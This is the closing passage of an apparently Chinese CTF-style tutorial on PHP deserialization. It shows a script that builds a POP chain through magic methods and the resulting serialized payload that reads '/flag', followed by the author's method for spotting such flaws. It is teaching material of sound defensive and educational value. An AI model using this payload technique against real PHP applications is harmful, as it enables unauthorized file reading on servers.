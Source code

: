 ```php

    public function __get($name){
        $function = $this->a;
        return $function();
    }

    public function Get_hint($file){
        $hint=base64_encode(file_get_contents($file));
        echo $hint;
        return ;
    }

    public function __invoke(){
        $content = $this->Get_hint($this->filename);
        echo $content;
    }
}
$a = new Start();
$a->name = new Info();
$a->name->file["filename"] = new Room();
$a->name->file["filename"]->a= new Room();
echo "\n";
echo serialize($a);
?>
```

结果：

```php
O:5:"Start":2:{s:4:"name";O:4:"Info":3:{s:17:"%00Info%00phonenumber";i:123123;s:7:"promise";s:15:"I will not !!!!";s:4:"file";a:1:{s:8:"filename";O:4:"Room":3:{s:8:"filename";s:5:"/flag";s:10:"sth_to_set";N;s:1:"a";O:4:"Room":3:{s:8:"filename";s:5:"/flag";s:10:"sth_to_set";N;s:1:"a";s:0:"";}}}}s:4:"flag";s:33:"syst3m("cat 127.0.0.1/etc/hint");";}
```

要注意下phonenumber他是私有的会加上%00类名%00。其实也可以手写payload的直接看源码写，只要学的精通两种方法都是很好的。

总结
--

这里我主要讲了一些魔术方法，和调用条件，漏洞产生的原理，和怎么看漏洞和写payload，我个人是怎么看有没有漏洞呢，首先我是看类里面有没有一些危险的功能，看下能不能利用，能的话就逆推一下，看看怎么才能调用它，有没有一些可利用的魔术方法再看看他和其它类有没有关联，找找有没有pop链。最后在构造payload的。

**ps**:本文章单纯是我个人的看法，如果有误，希望各位师傅指出，谢谢各位师傅，嘻嘻。